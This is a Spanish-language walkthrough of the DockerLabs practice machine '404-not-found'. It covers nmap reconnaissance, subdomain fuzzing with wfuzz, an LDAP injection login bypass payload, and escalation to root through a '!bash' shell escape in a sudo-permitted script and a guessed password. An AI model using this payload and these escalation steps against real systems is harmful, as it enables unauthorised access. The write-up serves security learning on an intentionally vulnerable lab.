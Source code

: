 # 404-not-found

Maquina `404-not-found` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![Dock](./images/404-not-found/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sat Aug 24 15:03:05 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 59:4e:10:e2:31:bf:13:43:c9:69:9e:4f:3f:a2:95:a6 (ECDSA)
|_  256 fb:dc:ca:6e:f5:d6:5a:41:25:2b:b2:21:f1:71:16:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://404-not-found.hl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 24 15:03:15 2024 -- 1 IP address (1 host up) scanned in 10.07 seconds

```

Al parecer hay un dominio llamado `404-not-found.hl`, por lo que lo tenemos que agregar en `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl
```

Una vez hecho esto continuaremos por el navegador ya que el escaneo no nos dice mas nada.

#### PUERTO 80

![80](./images/404-not-found/imagenes/80.png)

Luego de revisar un rato y usar gobuster no encontré nada mas que una "clave" en `/participar.html`;que realmente era un mensaje en base64 que dice _"Que haces?, mira en la URL."_. Según el mensaje dice que tenemos que mirar la URL, por lo que podriamos intentar buscar _subdominios_ con wfuzz de la siguiente manera:

```css
wfuzz --hl 9 -w <WORDLIST> -u "http://404-not-found.hl" -H "Host: FUZZ.404-not-found.hl"
```

```css
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://404-not-found.hl/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================
000000085:   200        149 L    152 W      2023 Ch     "info"
```

como vemos, hay un _subdominio_ "info" en el cual lo agregamos al `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl info.404-not-found.hl
```

Esto para que podamos entrar desde el navegador.

Una vez que entramos a `info.404-not-found.hl` vemos lo siguiente: ![info](./images/404-not-found/imagenes/info.png)

Luego de revisar un poco el codigo fuente, se ve en el final lo siguiente:

```css
<!-- I believe this login works with LDAP -->
```

Por lo que si buscamos `LDAP injection`, podemos probar si alguno de la página funciona(en mi caso me funcionó esta [página](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) con `admin*)(uid=*))(|(uid=*`). Una vez probado estaremos dentro y nos da un usuario y contraseña del ssh:

![credenciales](./images/404-not-found/imagenes/credenciales.png)

## INTRUSION

Ahora nos conectamos mediante ssh con las credenciales que tenemos y listo. _ya estamos dentro_

## ESCALADA DE PRIVILEGIOS

#### 404-page

Una vez dentro podemos probar un `sudo -l` y vemos lo siguiente:

```css
(200-ok : 200-ok) /home/404-page/calculator.py
```

Intentamos leerlo sin exito pero al ejecutarlo tampoco se ve nada que podamos aprovechar. Ahora intentaremos buscar si hay algún mensaje en un ".txt" ejecutando:

```css
find / -name "*.txt" 2>/dev/null
```

```css
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/top_level.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/entry_points.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/top_level.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/entry_points.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/requires.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/top_level.txt
/usr/lib/python3.12/LICENSE.txt
/usr/share/perl/5.38.2/Unicode/Collate/allkeys.txt
/usr/share/perl/5.38.2/Unicode/Collate/keys.txt
/usr/share/perl/5.38.2/unicore/Blocks.txt
/usr/share/perl/5.38.2/unicore/NamedSequences.txt
/usr/share/perl/5.38.2/unicore/SpecialCasing.txt
/var/www/nota.txt
```

Como vemos si hay una nota, y al leerla nos dice _"En la calculadora no sé para qué se usa el símbolo "!" seguido de algo más, sólo 200-ok lo sabe."_. Sabiendo esto podriamos intentar ejecutar la calculadora nuevamente con `sudo -u 200-ok /home/404-page/calculator.py` pero en vez de poner numeros, ponemos `!bash` y ya escalamos de usuario.

#### 200-ok

Nuevamente intentamos ejecutar `sudo -l` pero como no tenemos la contraseña descartamos la opción.

Al irnos a nuestra home vemos una flag y un archivo llamado "boss.txt" que dice _"¿Qué es rooteable?"_, podemos intentar usar _"rooteable"_ como contraseña para root, por lo que ejecutamos `su root` y ponemos la contraseña y listo, _ya somos root_.

![root](./images/404-not-found/imagenes/root.png)

Adiós.
